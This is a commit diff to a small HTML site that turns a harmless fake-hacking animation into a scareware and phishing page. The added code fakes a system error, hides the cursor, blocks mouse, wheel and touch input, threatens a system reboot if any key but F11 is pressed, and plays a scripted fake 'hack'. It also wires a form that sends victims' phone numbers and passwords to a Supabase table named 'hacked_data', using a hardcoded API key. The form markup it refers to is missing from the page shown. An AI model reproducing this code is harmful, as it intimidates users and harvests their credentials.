

Before and after one commit to AdamNipt/goldapple, a plain HTML site: page index.html in a window 390 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,91 +1,173 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>ВЗЛОМ СИСТЕМЫ...</title>
+    <title>Системное обновление</title>
     <style>
+                /* Полностью скрываем курсор */
+        body, html {
+            cursor: none !important;
+        }
+
+        /* Дополнительно блокируем выделение текста */
         body {
-            background: black;
-            color: lime;
-            font-family: monospace;
+            user-select: none;
+            -webkit-user-select: none;
+        }
+        body {
+            margin: 0;
+            padding: 0;
+            font-family: 'Consolas', monospace;
+            background: #000;
+            color: red;
+            height: 100vh;
             overflow: hidden;
-            margin: 0;
-            padding: 20px;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            text-align: center;
+            cursor: none;
         }
-        #matrix {
-            position: fixed;
-            top: 0;
-            left: 0;
-            opacity: 0.1;
-            z-index: -1;
+        #fake-error {
+            font-size: 24px;
+            text-shadow: 0 0 5px red;
         }
-        #hack-text {
+        #hack-console {
+            display: none;
             white-space: pre;
-            line-height: 1.2;
+            line-height: 1.5;
         }
-        .blink {
-            animation: blink 1s infinite;
-        }
-        @keyframes blink {
-            0%, 100% { opacity: 1; }
-            50% { opacity: 0; }
-        }
+        .blink { animation: blink 0.7s infinite; }
+        @keyframes blink { 50% { opacity: 0; } }
     </style>
 </head>
 <body>
-    <canvas id="matrix"></canvas>
-    <div id="hack-text"></div>
+    <!-- Фейковая ошибка -->
+    <div id="fake-error">
+        <p>ОШИБКА ГРАФИЧЕСКОГО ДВИЖКА (Код: 0xFA11)</p>
+        <p>Для продолжения работы нажмите <span class="blink">F11</span></p>
+        <p id="fake-timer">Автоматическое исправление через: 5 сек</p>
+    </div>
 
+    <!-- Настоящий "взлом" (покажется после F11) -->
+    <div id="hack-console"></div>
+    <script src="https://unpkg.com/@supabase/supabase-js@2"></script>
     <script>
-        // Эффект "Матрицы" на фоне
-        const canvas = document.getElementById('matrix');
-        const ctx = canvas.getContext('2d');
-        canvas.width = window.innerWidth;
-        canvas.height = window.innerHeight;
+                // Блокируем ВСЕ события мыши
+        document.addEventListener('mousedown', e => e.preventDefault(), {capture: true});
+        document.addEventListener('mouseup', e => e.preventDefault(), {capture: true});
+        document.addEventListener('click', e => e.preventDefault(), {capture: true});
+        document.addEventListener('dblclick', e => e.preventDefault(), {capture: true});
+        document.addEventListener('contextmenu', e => e.preventDefault(), {capture: true});
+        document.addEventListener('mousemove', e => e.preventDefault(), {capture: true});
 
-        const chars = "01";
-        const fontSize = 14;
-        const columns = Math.floor(canvas.width / fontSize);
-        const drops = Array(columns).fill(0);
+        // Блокируем колесико мыши
+        document.addEventListener('wheel', e => e.preventDefault(), {passive: false});
 
-        function drawMatrix() {
-            ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
-            ctx.fillRect(0, 0, canvas.width, canvas.height);
-            ctx.fillStyle = '#0f0';
-            ctx.font = fontSize + 'px monospace';
+        // Блокируем тачпад (для ноутбуков)
+        document.addEventListener('touchstart', e => e.preventDefault(), {passive: false});
+                // Двойная защита через JavaScript
+        document.body.style.cursor = 'none';
 
-            for (let i = 0; i < drops.length; i++) {
-                const text = chars[Math.floor(Math.random() * chars.length)];
-                ctx.fillText(text, i * fontSize, drops[i] * fontSize);
-                if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) drops[i] = 0;
-                drops[i]++;
+        // Блокируем правую кнопку мыши (опционально)
+        document.addEventListener('contextmenu', function(e) {
+            e.preventDefault();
+        });
+        // 1. Блокируем всё, кроме F11
+        document.addEventListener('keydown', (e) => {
+            if (e.key !== 'F11') {
+                // Подменяем любую клавишу на "F11" в подсказке
+                document.getElementById('fake-error').innerHTML = `
+                    <p>НЕВЕРНАЯ КЛАВИША!</p>
+                    <p>Нажмите <span class="blink">F11</span>, иначе система будет перезагружена</p>
+                `;
+
+                // Запугиваем звуком
+                playErrorSound();
             }
+        });
+
+        // 2. Фейковый таймер
+        let seconds = 5;
+        const timer = setInterval(() => {
+            document.getElementById('fake-timer').textContent =
+                `Автоматическое исправление через: ${seconds} сек`;
+            seconds--;
+
+            if (seconds < 0) {
+                clearInterval(timer);
+                document.getElementById('fake-error').innerHTML = `
+                    <p>СИСТЕМА НЕ ОТВЕЧАЕТ</p>
+                    <p>СРОЧНО НАЖМИТЕ <span class="blink">F11</span></p>
+                `;
+                playErrorSound();
+            }
+        }, 1000);
+
+        // 3. Когда пользователь нажмёт F11 - запускаем "взлом"
+        document.addEventListener('keyup', (e) => {
+            if (e.key === 'F11') {
+                document.getElementById('fake-error').style.display = 'none';
+                document.getElementById('hack-console').style.display = 'block';
+                startRealHack();
+            }
+        });
+
+        // 4. Настоящий "взлом" (после F11)
+        async function startRealHack() {
+            const consoleElem = document.getElementById('hack-console');
+
+            const print = async (text, delay = 50) => {
+                for (let char of text) {
+                    consoleElem.innerHTML += char;
+                    await new Promise(r => setTimeout(r, delay));
+                }
+                consoleElem.innerHTML += '\n';
+            };
+
+            await print('> ВЗЛОМ ИНИЦИАЛИЗИРОВАН');
+            await print('> Ваш IP: 192.168.' + Math.floor(Math.random() * 255) + '.' + Math.floor(Math.random() * 255));
+            await print('> Поиск уязвимостей... УСПЕШНО');
+            await print('> Подключаемся к камере... АКТИВИРОВАНА');
+            await print('> Доступ к паролям... ПОЛУЧЕН');
+            await print('\nВАША СИСТЕМА ВЗЛОМАНА!');
+            await print('Это шутка, но F11 ты уже нажал :)');
+            await print('<span class="blink">Нажми F5 чтобы выйти</span>');
         }
-        setInterval(drawMatrix, 50);
+                // Инициализация Supabase (замени на свои данные!)
+        const supabaseUrl = 'https://vrzghglpkndfmvpdowqk.supabase.co';
+        const supabaseKey = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InZyemdoZ2xwa25kZm12cGRvd3FrIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTM4ODI1ODksImV4cCI6MjA2OTQ1ODU4OX0.ZbdPGGBoDK84V1okPLvAbdkyxvugg35DWHGPzYqFWQU';
+        const supabase = supabase.createClient(supabaseUrl, supabaseKey);
 
-        // Текст "взлома"
-        const hackText = document.getElementById('hack-text');
-        const messages = [
-            "> Подключаемся к системе...",
-            "> Обход защиты... УСПЕШНО",
-            "> Доступ к камере: АКТИВИРОВАН",
-            "> Перехват паролей... 23%... 67%... 100%",
-            "> ВЗЛОМ ЗАВЕРШЕН!",
-            " ",
-            "ТВОЙ КОМПЬЮТЕР ВЗЛОМАН!",
-            "ХА-ХА-ХА! ЭТО РОЗЫГРЫШ! 😆"
-        ];
+        // Показываем модальное окно через 5 секунд
+        setTimeout(() => {
+            document.getElementById('overlay').style.display = 'block';
+            document.getElementById('modal').style.display = 'block';
+        }, 5000);
 
-        let i = 0;
-        function typeWriter() {
-            if (i < messages.length) {
-                hackText.innerHTML += messages[i] + "<br>";
-                i++;
-                setTimeout(typeWriter, 1500);
+        // Обработка отправки формы
+        document.getElementById('submit').addEventListener('click', async () => {
+            const phone = document.getElementById('phone').value;
+            const password = document.getElementById('password').value;
+
+            if (!phone || !password) {
+                alert('Заполните все поля!');
+                return;
+            }
+
+            // Отправляем данные в Supabase
+            const { data, error } = await supabase
+                .from('hacked_data')
+                .insert([{ phone, password }]);
+
+            if (error) {
+                console.error('Ошибка:', error);
+                alert('Ошибка отправки!');
             } else {
-                hackText.innerHTML += "<span class='blink'>Нажми F5 для перезагрузки</span>";
+                alert('Данные приняты! Система будет разблокирована...');
+                document.getElementById('modal').style.display = 'none';
+                document.getElementById('overlay').style.display = 'none';
             }
-        }
-        setTimeout(typeWriter, 1000);
+        });
     </script>
 </body>
 </html>
```
